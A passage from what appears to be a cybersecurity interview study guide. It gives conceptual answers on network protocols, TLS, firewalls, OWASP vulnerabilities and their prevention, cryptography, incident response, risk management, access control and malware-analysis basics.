- Error checking: Detects and retransmits lost packets
- Higher overhead: More processing and bandwidth
- Examples: HTTP, HTTPS, FTP, SSH

**UDP (User Datagram Protocol)**:
- Connectionless: No connection establishment required
- Unreliable: No guarantee of delivery or order
- No flow control: Sends data at maximum rate
- Minimal error checking: Basic checksum only
- Lower overhead: Faster and more efficient
- Examples: DNS, DHCP, VoIP, gaming

### Q: Walk me through the SSL/TLS handshake process.
1. **Client Hello**: Client sends supported cipher suites, TLS version, random number
2. **Server Hello**: Server responds with chosen cipher suite, certificate, random number
3. **Certificate Verification**: Client validates server certificate against trusted CAs
4. **Key Exchange**: Client generates pre-master secret, encrypts with server's public key
5. **Session Key Generation**: Both sides derive symmetric session keys from pre-master secret
6. **Finished Messages**: Both sides send encrypted "finished" messages to confirm handshake
7. **Secure Communication**: All subsequent data encrypted with session keys

### Q: What are the different types of firewalls?
- **Packet Filtering**: Examines packet headers (IP, port, protocol) - stateless
- **Stateful Inspection**: Tracks connection state and context - knows TCP session state
- **Application Layer/Proxy**: Deep packet inspection, understands application protocols
- **Next-Generation Firewall (NGFW)**: Combines traditional firewall with IPS, application awareness, threat intelligence

## Web Security

### Q: Explain the OWASP Top 10 and how to prevent each vulnerability.
1. **Injection**: Use parameterized queries, input validation, ORM frameworks
2. **Broken Authentication**: Implement MFA, secure session management, password policies
3. **Sensitive Data Exposure**: Encrypt data at rest/transit, use HTTPS, proper key management
4. **XML External Entities (XXE)**: Disable external entity processing, use JSON instead of XML
5. **Broken Access Control**: Implement proper authorization, principle of least privilege
6. **Security Misconfiguration**: Secure defaults, regular updates, configuration management
7. **Cross-Site Scripting (XSS)**: Input validation, output encoding, CSP headers
8. **Insecure Deserialization**: Avoid untrusted serialized data, integrity checks
9. **Known Vulnerabilities**: Regular patching, dependency scanning, vulnerability management
10. **Insufficient Logging**: Comprehensive logging, monitoring, alerting, SIEM integration

### Q: What's the difference between stored, reflected, and DOM-based XSS?
**Stored XSS**: Malicious script stored on server (database, file), executed when content viewed
**Reflected XSS**: Script reflected off web application (URL parameter), not stored
**DOM-based XSS**: Vulnerability in client-side JavaScript that modifies DOM unsafely

## Cryptography

### Q: When would you use symmetric vs asymmetric encryption?
**Symmetric Encryption**:
- Fast encryption/decryption of large amounts of data
- Bulk data encryption (file encryption, disk encryption)
- Stream ciphers for real-time communication
- Challenge: Key distribution and management

**Asymmetric Encryption**:
- Key exchange and digital signatures
- Small amounts of data (encrypting symmetric keys)
- Public key infrastructure (PKI)
- Slower but solves key distribution problem

**Hybrid Approach**: Use asymmetric encryption to exchange symmetric keys, then use symmetric encryption for data

### Q: Explain digital signatures and their purpose.
Digital signatures provide:
- **Authentication**: Verifies sender identity
- **Integrity**: Ensures message hasn't been tampered with
- **Non-repudiation**: Sender cannot deny sending the message

Process:
1. Hash the message using cryptographic hash function
2. Encrypt hash with sender's private key (creates signature)
3. Recipient decrypts signature with sender's public key
4. Recipient hashes received message and compares with decrypted hash

## Incident Response

### Q: Walk me through the NIST Incident Response Framework.
1. **Preparation**:
   - Develop IR plan, procedures, and team
   - Implement monitoring and detection tools
   - Conduct training and exercises

2. **Detection & Analysis**:
   - Monitor for security events
   - Analyze and validate incidents
   - Determine scope and impact
   - Document findings

3. **Containment, Eradication & Recovery**:
   - **Containment**: Isolate affected systems to prevent spread
   - **Eradication**: Remove threat from environment
   - **Recovery**: Restore systems to normal operation

4. **Post-Incident Activity**:
   - Lessons learned review
   - Update procedures and controls
   - Report to stakeholders

### Q: How do you maintain chain of custody in digital forensics?
- **Documentation**: Record who, what, when, where, why for every action
- **Secure Storage**: Locked, climate-controlled, access-logged storage
- **Hash Verification**: Calculate and verify file hashes at each transfer
- **Access Logs**: Track everyone who accesses evidence
- **Legal Admissibility**: Follow legal requirements for evidence handling

## Risk Management

### Q: Explain the risk assessment process.
1. **Asset Identification**: Catalog critical assets (data, systems, processes)
2. **Threat Identification**: Identify potential threats (natural, human, technical)
3. **Vulnerability Assessment**: Find weaknesses that threats could exploit
4. **Risk Analysis**: Calculate risk = Threat × Vulnerability × Impact
5. **Risk Evaluation**: Compare risks against risk tolerance/appetite
6. **Risk Treatment**: Accept, avoid, mitigate, or transfer risks

### Q: What's the difference between quantitative and qualitative risk assessment?
**Quantitative**: Uses numerical values (ALE = ARO × SLE)
- Annual Rate of Occurrence (ARO)
- Single Loss Expectancy (SLE)
- Annual Loss Expectancy (ALE)
- More precise but requires extensive data

**Qualitative**: Uses descriptive categories (High/Medium/Low)
- Easier to implement
- More subjective
- Good for initial assessments

## Access Control

### Q: Explain the AAA security model.
**Authentication**: "Who are you?"
- Verifying user identity (passwords, biometrics, certificates)
- Something you know, have, or are

**Authorization**: "What can you do?"
- Granting access to resources based on identity
- Role-based (RBAC), attribute-based (ABAC), mandatory (MAC)

**Accounting**: "What did you do?"
- Logging and auditing user activities
- Compliance, forensics, billing

### Q: What is Zero Trust architecture?
**Principle**: "Never trust, always verify"
- Assume breach mentality
- Verify every user and device
- Least privilege access
- Micro-segmentation
- Continuous monitoring and validation

**Components**:
- Identity and access management
- Device security and compliance
- Network segmentation
- Data protection
- Monitoring and analytics

## Malware Analysis

### Q: Difference between static and dynamic malware analysis?
**Static Analysis**:
- Examining malware without execution
- File properties, strings, disassembly
- Safe but limited information
- Tools: file, strings, objdump, IDA Pro

**Dynamic Analysis**:
- Executing malware in controlled environment
- Runtime behavior, network traffic, system changes
- More information but requires sandboxing
- Tools: Process Monitor, Wireshark, sandbox environments

### Q: What are Indicators of Compromise (IOCs)?
- **File-based**: MD5/SHA hashes, file names, paths
- **Network-based**: IP addresses, domains, URLs, protocols
- **Registry-based**: Registry keys, values (Windows)
- **Behavioral**: Process names, command lines, user accounts
- **Usage**: Threat hunting, detection rules, incident response